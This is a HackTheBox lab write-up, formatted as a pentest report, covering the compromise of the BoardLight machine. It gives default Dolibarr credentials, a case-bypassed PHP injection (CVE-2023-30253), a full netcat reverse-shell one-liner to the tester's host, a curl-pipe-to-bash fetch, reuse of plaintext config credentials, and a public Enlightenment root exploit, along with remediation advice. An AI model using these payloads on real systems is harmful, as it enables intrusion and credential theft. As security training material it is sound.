# BoardLight — HackTheBox Report

| Difficulty | OS | Category |
| ---------- | -- | -------- |
| Easy | Linux | Web / Linux Privilege Escalation |

> Writeup of a retired BoardLight machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Enumeration & Subdomain Discovery](#12-web-enumeration--subdomain-discovery)
  * [2.1. Exploitation — Default Credentials](#21-exploitation--default-credentials)
  * [2.2. Authenticated RCE via CVE-2023-30253](#22-authenticated-rce-via-cve-2023-30253)
  * [2.3. Initial Foothold](#23-initial-foothold)
  * [3.1. Lateral Movement — Credential Discovery](#31-lateral-movement--credential-discovery)
  * [3.2. Local Enumeration](#32-local-enumeration)
  * [3.3. Privilege Escalation via CVE-2022-37706](#33-privilege-escalation-via-cve-2022-37706)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `BoardLight / IP: 10.129.231.37`
**Platform:** `HackTheBox`
**Date Completed:** `September 12, 2026`
**Assessment Type:** `Web Application / Linux Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was tasked to perform a penetration test against the Hack The Box BoardLight target environment. The objective was to evaluate the security posture of a Dolibarr ERP/CRM deployment hosted on an internal subdomain, along with the underlying Linux host, and determine whether an attacker could achieve full system compromise.

The assessment identified a chain of four vulnerabilities: default administrative credentials on the Dolibarr CRM login, a known authenticated remote code execution vulnerability in Dolibarr (CVE-2023-30253) exploited via its Website module, plaintext database credentials stored in an application configuration file that were reused as a valid system user's SSH password, and a local privilege escalation vulnerability in a SUID Enlightenment binary (CVE-2022-37706). By chaining these four weaknesses, Pheenix Security achieved full compromise of the target host, escalating from unauthenticated access to root.

Overall, the results indicate a high-risk exposure caused by weak default credentials, an unpatched and outdated CRM application, insecure credential storage practices, and an outdated, vulnerable desktop environment component left installed on a server host. Immediate remediation should focus on enforcing strong unique credentials, patching Dolibarr to a current version, removing plaintext credentials from configuration files, and removing or patching the vulnerable Enlightenment package, with follow-up testing to validate the fixes.

---

## Scope

| Host / URL / IP Address | Description |
| ------------------------- | ------------- |
| `BoardLight / board.htb / crm.board.htb / 10.129.231.37` | `Target machine — Linux web server (Apache, Dolibarr ERP/CRM)` |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service and subdomain discovery.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or CVEs.
4. **Exploitation** — gaining an initial foothold.
5. **Lateral Movement** — pivoting to a system user via discovered credentials.
6. **Privilege Escalation** — moving from low-privilege access to root.
7. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool | Purpose |
| ---- | ------- |
| `Nmap` | Port scanning / service enumeration |
| `ffuf` | Virtual host (subdomain) fuzzing |
| `Netcat` | Reverse shell listener |
| `LinPEAS` | Automated local Linux privilege escalation enumeration |
| Public PoC exploit ([CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)) | Enlightenment SUID privilege escalation exploitation |

---

## Assessment Summary (Findings Overview)

The assessment identified default CRM login credentials, a known authenticated RCE vulnerability in Dolibarr, plaintext database credentials enabling password reuse to a system account, and a local privilege escalation vulnerability in an outdated SUID Enlightenment binary. Chaining these four findings resulted in full compromise of the target host. Based on the demonstrated attack path, the overall risk to the assessed environment is **Critical**.

| Severity | Count |
| -------- | ----- |
| Critical | 0 |
| High | 3 |
| Medium | 1 |
| Low | 0 |
| Informational | 0 |

| # | Severity | Finding Name |
| - | -------- | ------------- |
| 1 | Medium | Use of Default Credentials on Dolibarr CRM Login |
| 2 | High | Authenticated Remote Code Execution in Dolibarr via Website Module (CVE-2023-30253) |
| 3 | High | Plaintext Database Credentials Enabling Password Reuse |
| 4 | High | Local Privilege Escalation via Vulnerable Enlightenment SUID Binary (CVE-2022-37706) |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to root compromise, step by step, with commands and evidence.

### 1.1. Reconnaissance

```
sudo nmap 10.129.231.37 -sC -sV
```



**Findings:** Port 22 (OpenSSH) and port 80 (Apache) open.

---

### 1.2. Web Enumeration & Subdomain Discovery

Added the host to `/etc/hosts` and browsed to the site, which presented a "BoardLight" cybersecurity consulting firm landing page.

```
echo "10.129.231.37 board.htb" | sudo tee -a /etc/hosts
```



Inspecting the page footer revealed a reference to `Board.htb`, confirming the domain.


Fuzzed for virtual hosts using a subdomain wordlist:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949
```



**Findings:** Discovered the subdomain `crm.board.htb`, added to `/etc/hosts`:

```
echo "10.129.231.37 crm.board.htb" | sudo tee -a /etc/hosts
```

---

### 2.1. Exploitation — Default Credentials

Navigating to `crm.board.htb` revealed a Dolibarr ERP/CRM login page.



Tested the default credential pair `admin:admin`, which succeeded and granted administrative access.



**Findings:** The Dolibarr installation accepts default credentials (`admin:admin`) for its administrator account, with no forced password change or account lockout observed. The post-login page also disclosed the application version: **Dolibarr 17.0.0**.

---

### 2.2. Authenticated RCE via CVE-2023-30253

**Vulnerability identified:** Dolibarr version 17.0.0 is affected by CVE-2023-30253, an authenticated remote code execution vulnerability in the Website module. The application attempts to filter dangerous `<?php` tags from user-supplied website content, but the filter is case-sensitive — submitting `<?PHP` (uppercase) instead of `<?php` bypasses the filter while still being interpreted as a valid PHP opening tag by the PHP engine.

- Public Exploit: [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)

Created a new website and page through the Dolibarr admin interface to stage the payload:

```
go to websites -> + sign -> Name it -> Submit -> + Sign on Page -> name(shell) -> create
```





Edited the page's HTML source, injecting a case-bypassed PHP payload:

```php
<?PHP echo system("whoami");?>
```



Viewed the published page, confirming code execution:



**Result:** The PHP filter bypass was confirmed — the injected `<?PHP` code executed on the server as the `www-data` user.

---

### 2.3. Initial Foothold

Replaced the payload with a reverse shell one-liner and started a listener:

```
nc -lvnp 4455
```

```php
# add in the HTML code section of the webpage
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.196 4455 >/tmp/f");?>
```

Viewing the page triggered the payload, yielding a reverse shell:



Upgraded the shell for interactivity:

```
script /dev/null -c /bin/bash
```



---

### 3.1. Lateral Movement — Credential Discovery

Enumerated the Dolibarr application's configuration file for database credentials:

```
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
```



**Credentials found:** `dolibarrowner : serverfun2$2023!!`

Checked `/etc/passwd` for local user accounts to test for credential reuse:

```
cat /etc/passwd
```



Attempted to reuse the discovered database password for SSH access as `larissa`:

```
ssh larissa@10.129.231.37
```



**Result:** The database password was reused as `larissa`'s SSH password.

**user.txt:** `cd3c13d8f5125a816bfbe2d274f1d99d`

---

### 3.2. Local Enumeration

Downloaded and ran LinPEAS for automated local privilege escalation enumeration:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 3000
```

```
curl http://10.10.14.196:3000/linpeas.sh | bash
```



**Findings:** Among the flagged SUID binaries, `enlightenment_sys` and related Enlightenment utilities stood out as running with the SUID bit set (owned by root) — the Set User ID bit allows it to run with the privileges of the file owner (root).

Confirmed the installed version:

```
enlightenment --version
```



---

### 3.3. Privilege Escalation via CVE-2022-37706

**Vulnerability identified:** CVE-2022-37706 — the `enlightenment_sys` binary is installed SUID root, and the underlying system library function mishandles pathnames beginning with a `/dev/..` substring, allowing a local user to escalate privileges to root.

- [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706)
- [Public PoC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

Downloaded the public PoC exploit and transferred it to the target:

```
wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
sudo python3 -m http.server 2000
```

```
wget http://10.10.14.196:2000/exploit.sh
bash exploit.sh
```

Confirmed root access and captured the final flag:

```
cat /root/root.txt
```



**root.txt:** `81da9f06fa2fcb75456b6e46fe2736d8`

---

## Technical Findings Details

### 1. Use of Default Credentials on Dolibarr CRM Login — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-1392: Use of Default Credentials |
| **CVSS 3.1 Score** | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` *(assessed)* |
| **Description (Incl. Root Cause)** | The Dolibarr ERP/CRM installation at `crm.board.htb` accepts the default administrator credential pair `admin:admin`, with no forced password change, account lockout, or rate limiting observed. The root cause is deployment of the application with default credentials left unchanged. |
| **Security Impact** | An unauthenticated attacker can trivially guess the credentials and gain full administrative access to the CRM, which served as the entry point for the entire subsequent attack chain. |
| **Affected Host(s)** | `crm.board.htb` |
| **Remediation** | - Change all default credentials immediately upon deployment<br>- Enforce a strong password policy for all administrative accounts<br>- Implement account lockout or rate limiting on the login endpoint<br>- Force a password change on first login for any default/example accounts |
| **References** | [MITRE ATT&CK: T1078.001 — Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/) |

**Evidence:**
```
Login: admin
Password: admin
→ Administrative access granted
```

---

### 2. Authenticated Remote Code Execution in Dolibarr via Website Module — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') |
| **CVSS 3.1 Score** | 8.8 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` *(NVD-assigned score for CVE-2023-30253)* |
| **Description (Incl. Root Cause)** | Dolibarr versions prior to 17.0.1 filter dangerous `<?php` opening tags from content submitted through the Website module to prevent PHP code injection, but the filter performs a case-sensitive match. Submitting `<?PHP` (uppercase) bypasses the filter entirely while still being interpreted as a valid PHP tag by the PHP interpreter, allowing an authenticated user to inject and execute arbitrary PHP code — and by extension, arbitrary OS commands via PHP's `system()` function. |
| **Security Impact** | Any authenticated user of the Dolibarr application (including the default admin account from Finding 1) can achieve full remote code execution on the underlying server, escalating from application-level access to OS-level command execution as the web server user (`www-data`). This was used to obtain the initial foothold and reverse shell. |
| **Affected Host(s)** | `crm.board.htb` — Dolibarr Website module |
| **Remediation** | - Upgrade Dolibarr to version 17.0.1 or later, which corrects the case-sensitivity flaw in the PHP tag filter<br>- Apply a case-insensitive filter for PHP tags as defense-in-depth if a custom patch is needed before upgrading<br>- Restrict the Website module / page-creation feature to trusted administrators only<br>- Run the web application under a least-privilege service account to limit the impact of any RCE |
| **References** | [NVD: CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) · [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |

**Evidence:**
```php
<?PHP echo system("whoami");?>
→ Output: www-data
```

---

### 3. Plaintext Database Credentials Enabling Password Reuse — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-312: Cleartext Storage of Sensitive Information |
| **CVSS 3.1 Score** | 7.5 (High) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` *(assessed — requires the foothold from Finding 2 to reach the file)* |
| **Description (Incl. Root Cause)** | Dolibarr's `conf.php` configuration file stores the application's MySQL database credentials in plaintext, readable by the `www-data` user (the same context achieved via the RCE in Finding 2). The recovered password was additionally reused as the local system user `larissa`'s SSH password — a separate but compounding weakness, as a credential intended for database access should never overlap with an OS-level account. |
| **Security Impact** | An attacker with web-server-level code execution can trivially read the database credentials, and in this case, reuse of that exact password for a real system account enabled direct SSH access and lateral movement to a fully interactive user session, from which `user.txt` was captured. |
| **Affected Host(s)** | `crm.board.htb` — `/var/www/html/crm.board.htb/htdocs/conf/conf.php`; `10.129.231.37:22` — user `larissa` |
| **Remediation** | - Store database credentials using environment variables or a secrets manager rather than plaintext in an application config file<br>- Restrict file permissions on `conf.php` so it is not readable by the web server process beyond what's strictly required<br>- Enforce unique credentials per service/system; prohibit reuse between database and OS-level accounts<br>- Rotate the exposed credential immediately |
